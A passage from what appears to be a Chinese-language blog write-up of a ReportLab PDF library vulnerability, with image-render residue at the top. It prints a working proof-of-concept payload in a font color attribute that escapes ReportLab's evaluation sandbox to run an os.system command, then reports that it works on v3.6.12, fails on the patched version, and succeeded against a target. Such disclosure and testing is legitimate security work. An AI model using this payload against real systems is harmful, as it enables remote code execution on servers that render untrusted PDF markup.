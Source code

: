     #                    '__hash__': lambda self: hash(str(self)),
    
    #                },
    
    #            )
    
    #        ]
    
    #    ]
    
    #    for orgTypeFun in [type(type(1))]
    
    #]
    
    add_paragraph("""
    
                <para>
    
                  <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
    
                    exploit
    
                    </font>
    
                </para>""", content)
    
    build_document(doc, content)
    
    generic
    
    1.86 KB
    
    © Guge's Blog

![]()

可以看到该漏洞在reportlab v3.6.12中被成功触发。

那么让我们来看看修复版本中会发生什么：

![]()

看到错误了吗？漏洞利用失败。  
当在目标中使用相同的 poc 时，没有显示错误，pdf 已成功生成，这表明他们确实使用易受攻击的版本，否则会显示错误。
